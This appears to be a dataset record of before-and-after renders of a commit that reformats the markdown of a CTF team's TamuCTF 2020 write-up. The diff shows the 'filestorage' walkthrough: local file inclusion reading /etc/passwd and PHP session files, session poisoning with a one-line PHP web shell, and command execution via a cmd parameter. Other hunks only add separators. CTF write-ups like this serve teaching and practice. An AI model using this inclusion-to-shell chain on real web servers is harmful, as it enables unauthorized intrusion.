

Before and after one commit to born2scan/born2scan.github.io, a Jekyll site: the page built from _posts/2020-03-20-TamuCTF-2020.md, in a window 1280 px wide and 1400 px high, scrolled down 2482 px. Shown: the whole window at 99% size, without its empty margins (208-1079 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; part of the change alters nothing that is shown.

Commit message:
Fixed markdown style

````diff
--- a/_posts/2020-03-20-TamuCTF-2020.md
+++ b/_posts/2020-03-20-TamuCTF-2020.md
@@ -48,57 +48,78 @@ Changing the cookie in the browser, the counter shows more that 2000M credits an
 
 🏁 __gigem{l0rdy_th15_1s_mAny_cr3d1ts}__{:.spoiler}
 
-
-
-
-
 ## filestorage
 
 > Try out my new file sharing site!
 > http://172.17.0.2
 
-Navigating to <i>http://172.17.0.2/index.php</i> gives as a form asking for a name
+Navigating to __http://172.17.0.2/index.php__ gives as a form asking for a name
+
 ![nameform](/assets/img/TamuCTF_2020/filestorage_1.png)
-Let's try and input something like _&lt;strong&gt;foo&lt;/strong&gt;_.
+
+Let's try and input something like _\<strong>foo</strong>_.
 It will get us to a sort of uploads list page. Observe that our name is not escaped.
+
 ![listuploads](/assets/img/TamuCTF_2020/filestorage_2.png)
+
 If we click on one of the list elements we can get that file's content.
+
 ![seeupload](/assets/img/TamuCTF_2020/filestorage_3.png)
+
 Observe the link that was used to view the page:
-```bash
+
+```
 http://172.17.0.2/index.php?file=beemovie.txt
 ```
-Hmm, smells like RFI. <br>
+
+Hmm, smells like RFI.
+
 Let's try something like _/index.php?file=../../../../etc/passwd_
+
 ![lfi](/assets/img/TamuCTF_2020/filestorage_4.png)
+
 It works! Seems like _index.php?file=filename_ does something like:
+
 ```php
 if ($_GET['file']) {
     $output = file_get_contents($_GET['file']);
     include ($output);
 }
 ```
+
 This means that we have arbitrary reads. Let's check if our session files are stored in _/tmp/sess_SESSIONID_.
-By trying _http://172.17.0.2/index.php?file=../../../../../tmp/sess_imec37rtfcsn9v2p7dd8mqful8_ we get our serialized session data.
+By trying __http://172.17.0.2/index.php?file=../../../../../tmp/sess_imec37rtfcsn9v2p7dd8mqful8__ we get our serialized session data.
+
 ![sessdata](/assets/img/TamuCTF_2020/filestorage_5.png)
+
 Observe that our name is in bold, which means no sanitization is applied when registering.
 We can try to use some php code as our name:
+
 ```php
 <?php system($_GET["cmd"]); ?>
 ```
-Now if we navigate to _/index.php?file=../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=id_ we get our **id** command executed.
+
+Now if we navigate to __/index.php?file=../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=id__ we get our **id** command executed.
+
 ![cmdid](/assets/img/TamuCTF_2020/filestorage_6.png)
+
 Perfect, let's read the flag!
-1. Find the flag location:<br>
+
+1. Find the flag location:
+
 ```bash
 /index.php?file=../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=find / -name '*flag*' 2>/dev/null
 ```
+
 2. Read the flag at /flag_is_here/flag.txt
+
 ```bash
 /index.php?file=../../../../../../../../tmp/sess_lavn0ra1jqa7sh2nien1fehhh1&cmd=cat ../../../../../flag_is_here/flag.txt
 ```
 
 🏁 __gigem{535510n_f1l3_p0150n1n6}__{:.spoiler}
+
+---
 
 # Misc
 
@@ -198,6 +219,8 @@ Changing the .png signature with a .jpeg one reveals us the photo with flag.
 
 🏁 __gigem{cH4nG3_the_f0rMaTxD}__{:.spoiler}
 
+---
+
 # Rev
 
 ## angrmanagement
@@ -232,6 +255,8 @@ if len(sm.found) > 0:
 
 🏁 __gigem{4n63r_m4n463m3n7}__{:.spoiler}
 
+---
+
 # Crypto
 
 ## Sigma
@@ -248,6 +273,8 @@ i.e.
 ```103 208 311 412 ... = 103 + 105 + 103 + 101 + ... = gige...```
 
 🏁 __gigem{n3v3r_evv3r_r01l_yer0wn_cryptoo00oo}__{:.spoiler}
+
+---
 
 # Pentest
 
@@ -335,6 +362,8 @@ gigem{...}
 
 🏁 __gigem{y0u_w0u1d_7h1nk_p3opl3_W0u1d_Kn0W_b3773r}__{:.spoiler}
 
+---
+
 # Pwn
 
 ## Echo as a service
````
